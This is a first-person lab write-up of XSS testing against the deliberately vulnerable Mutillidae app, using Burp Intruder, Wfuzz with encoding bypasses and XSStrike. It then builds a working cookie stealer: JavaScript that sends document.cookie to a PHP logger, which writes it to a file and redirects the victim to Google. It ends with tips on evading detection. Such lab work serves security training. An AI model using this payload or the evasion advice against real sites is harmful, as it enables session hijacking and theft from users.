In this project, I conducted a comprehensive security analysis of Cross-Site Scripting (XSS) vulnerabilities, one of the most prevalent attack vectors on the web today. XSS attacks occur when malicious scripts are injected into otherwise trusted websites, allowing attackers to steal sensitive data, hijack sessions, or redirect users without their knowledge.
I demonstrated both the offensive capabilities of XSS exploitation and the defensive implications of poor input validation. The project consisted of two major phases: discovering XSS vulnerabilities through automated fuzzing techniques, and developing a functional JavaScript-based cookie stealer to illustrate the real-world impact of unpatched XSS flaws.
I conducted all testing in an isolated lab environment consisting of: - Attacking Machine: Kali Linux with penetration testing tools pre-installed - Target Machine: Metasploitable 2 (intentionally vulnerable Linux VM) - Target Application: Mutillidae, a deliberately vulnerable web application designed for security training
I used VirtualBox to create an isolated network between the attacking and target machines, ensuring all tests remained contained within the lab environment.
To identify XSS vulnerabilities efficiently, I employed three complementary fuzzing tools. My objective was to probe the Mutillidae application's DNS Lookup feature (accessible via OWASP Top 10 → Cross Site Scripting → Reflected → DNS Lookup) for reflected XSS flaws.
Mutillidae DNS Lookup interface - the entry point for XSS fuzzing.

I began by configuring Firefox to route all traffic through Burp Suite's proxy on 127.0.0.1:8080. This allowed me to intercept and modify HTTP requests in real-time.
Firefox proxy configuration - routing all traffic through Burp Suite on port 8080.

Burp Suite Proxy tab with Intercept enabled - ready to capture requests.

I then submitted a test value (127.0.0.1) in the Mutillidae DNS Lookup field, which was immediately captured by Burp's proxy.
Request captured by Burp proxy - now ready for fuzzing.

Rather than manually testing each payload, I leveraged Burp's Intruder module to automate the process. I extracted the hostname parameter and configured it as the fuzzing target using the Sniper attack type. This iterates through a list of payloads one position at a time—ideal for discovering injection points.
Intruder configuration - specifying the target parameter for fuzzing.

I loaded a comprehensive XSS wordlist from the system dictionary at /usr/share/wfuzz/wordlist/Injections/XSS.txt, which contained dozens of known XSS payloads.
Payload loading interface - importing the XSS.txt wordlist.

After initiating the attack, Burp iteratively sent each payload and logged the response codes and sizes. The results revealed multiple successful injections.
Attack results - Burp successfully identifies payloads that bypass the application's filters.

To validate the vulnerability, I extracted payload #3 and manually injected it into the DNS Lookup field. The JavaScript executed successfully, displaying an alert box—proof of a reflected XSS vulnerability.
Successful XSS execution - alert box triggered by the injected payload.

For a command-line based approach, I used Wfuzz, which offered more flexibility and speed than Burp for this particular task.
Wfuzz help menu - displaying available options for fuzzing.

I executed Wfuzz against the same DNS Lookup parameter, specifying the XSS wordlist and enabling colored output for easier result analysis:
Wfuzz output - each payload tested with response codes and content analysis.


Wfuzz's output provided immediate feedback: response codes, response sizes, and payload details. This made it easy to identify which payloads generated different behaviors—a sign of successful code execution.
To further refine my fuzzing, I explored Wfuzz's encoding capabilities. Many web applications employ basic filters that can be bypassed through URL encoding or other transformations.
Wfuzz encoder list - displaying available payload transformations.

I appended URL encoding to the payload pipeline, which transformed each XSS payload into its percent-encoded equivalent:
URL-encoded payloads - bypassing simple character-based filters.


The results remained consistent, proving that the application's filters were minimal and vulnerable to encoded payloads.
The final tool I evaluated was XSStrike, a dedicated XSS detection suite featuring intelligent payload generation, DOM-based XSS detection, and WAF evasion capabilities.
XSStrike requires installation from GitHub. I downloaded and extracted the project.

After extracting the archive and navigating to the XSStrike directory, I launched the tool via Python 3.
XSStrike installation and execution - ready for scanning.

XSStrike provided an interactive scanning experience with a comprehensive help menu:
XSStrike help menu - showing available flags and options.

I executed XSStrike against the target URL, specifying the DNS Lookup parameter:
XSStrike parameter analysis - identifying potentially vulnerable inputs.

The tool began by testing for DOM-based vulnerabilities, then progressed to reflected XSS. When it identified a likely vulnerable parameter, it displayed an interactive payload generator with success probability estimates.
XSStrike continued scanning with user confirmation.

I also tested XSStrike's fuzzing capabilities with optimizations for speed:
XSStrike scanning with --skip-dom flag - skipping DOM checks to focus on reflected XSS payloads.

By disabling DOM-based checking and using the fuzzer mode with delay flags, I accelerated the fuzzing process without sacrificing accuracy.
XSStrike fuzzer results - testing various HTML tags and attributes with "[passed]" indicators.

Understanding how to detect XSS vulnerabilities is only half the battle. To truly appreciate the security implications, I developed a functional cookie stealer—demonstrating how an attacker leverages XSS to extract sensitive session data.
I created a local test environment to safely develop and validate the attack without compromising any real systems.
Initial directory and file structure for the cookie stealer project.

I started with a basic HTML file containing only the essential tags:
Minimal HTML structure - ready to embed JavaScript.

Browser rendering the initial HTML file - displaying "Hello World" to confirm the setup works.

To demonstrate how cookies are set and accessed, I wrote inline JavaScript to create a test cookie:
<script type="text/javascript">
document.cookie = "username=Null Byte";
</script>
Cookie creation script embedded in the HTML body.

To verify the cookie was created, I used document.write() to display it on the page:
Adding document.write(document.cookie) to the HTML source in nano editor.

The rendered page showing the stolen cookie in plaintext.

This proved the concept—any JavaScript executed in the page's context can read and modify cookies. In a real attack, I wouldn't display the cookie; instead, I'd exfiltrate it to an attacker-controlled server.
I modified the JavaScript to send the cookie to a PHP endpoint on the attacker's server:
<script type="text/javascript">
document.location='http://127.0.0.1/cookiestealer.php?c='+document.cookie;
</script>
This payload encodes the stolen cookie as a URL parameter and redirects the user to the attacker's server.
The complete HTML file with cookie exfiltration JavaScript.

Revised cookie stealer script with corrected server path (127.0.0.1/cookiestealer.php).

On the server side, I created a PHP script to receive and store the exfiltrated cookies:
Initial PHP script with redirect header - the first step in building the cookie handler.

The PHP script performs three key functions:
1. Capture the cookie from the URL parameter: $cookies = $_GET["c"];
2. Log the cookie to a file for later analysis: $file = fopen('log.txt', 'a');
3. Redirect the user to avoid suspicion: header("Location: https://google.com");
Complete PHP handler - receiving, logging, and redirecting.

By redirecting to a legitimate-looking site (in this case, Google), I minimized the chance that the victim would notice the attack.
I launched PHP's built-in development server to host the malicious page locally:
php -S 127.0.0.1:80
PHP development server log showing the attack in action - cookie exfiltrated via GET request to cookiestealer.php.

When I accessed the page in a browser, the JavaScript executed immediately:
Browser navigating to 127.0.0.1 - autocomplete reveals the cookiestealer URL from prior requests.

The browser was instantly redirected to Google, making the attack largely invisible to the end user:
Browser redirects to Google - the victim remains unaware.
Checking the server logs confirmed that the PHP script executed and received the cookie parameter:
PHP server access log - showing the cookie parameter in the request.

Finally, I verified that the cookie was successfully logged to disk:
The log.txt file containing the stolen cookie.

The stolen cookie (username=Null Byte) was now in my possession—a perfect demonstration of how XSS leads to credential compromise.
In a real-world attack scenario, I would inject this malicious script into a vulnerable web form or reflected parameter. To test for XSS during reconnaissance, attackers typically use a simple proof-of-concept like:
<script>alert("Alert");</script>
Proof-of-concept XSS alert box - confirming script execution in the browser context.

If the alert box appears, the application is vulnerable. From there, the attacker can escalate to data exfiltration as I demonstrated.
To evade detection, attackers would host the PHP logger on infrastructure that's difficult to trace, obfuscate the JavaScript, and redirect victims to pages contextually relevant to the compromised site.
XSS is Widespread: Even basic web applications often fail to properly validate and encode user input, leaving them vulnerable to injection attacks.
Multiple Detection Vectors: Automated tools like Burp Suite, Wfuzz, and XSStrike each provide unique advantages. Combining them increases the likelihood of discovering vulnerabilities.
Encoding Bypasses Basic Filters: Simple character-based filters are ineffective against encoded payloads. Proper input validation requires context-aware encoding (HTML encoding, JavaScript encoding, URL encoding).
JavaScript Execution Enables Data Theft: Once JavaScript executes in a user's browser context, the attacker has access to all cookies, session tokens, and DOM content associated with that page.
Behavioral Redirection Masks Attacks: By redirecting victims to legitimate sites after stealing their data, attackers can maintain operational security and avoid detection.